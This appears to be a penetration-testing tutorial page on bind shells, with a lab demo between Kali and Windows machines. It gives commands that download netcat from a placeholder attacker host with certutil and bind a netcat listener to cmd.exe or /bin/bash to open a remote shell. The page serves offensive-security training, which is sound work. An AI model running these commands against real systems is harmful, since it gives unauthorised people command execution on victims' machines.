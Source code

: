 # Bind Shells

* A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.
* A Netcat listener can be setup to execute a specific executable like <mark style="color:red;">cmd.exe</mark> or <mark style="color:red;">/bin/bash</mark> when a client connects to the listener.

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

## Practice Demo

We will set up a webserve using python to be able to download the netcat executable on the Windows system:

* <mark style="color:yellow;">certutil -urlcache -f http://kaliIP/netcat.exe netcat.exe</mark>

#### Set up a netcat listener on the target system

* <mark style="color:yellow;">nc.exe -nvlp 1234 -e cmd.exe</mark>
  * We add the "<mark style="color:red;">-e</mark>" flag so that when we connect from the attacker's machine, cmd is executed giving us a shell on the target.

#### Connecting to the listener

* <mark style="color:yellow;">nc -nv targetIP 1234</mark>

### Flipping the roles (kali is the target)

#### Open listener on Kali

* <mark style="color:yellow;">nc -nvlp 1234 -c /bin/bash</mark>
  * The option "<mark style="color:red;">-c</mark>" is reserved for Linux systems

Then just connect from the Windows system



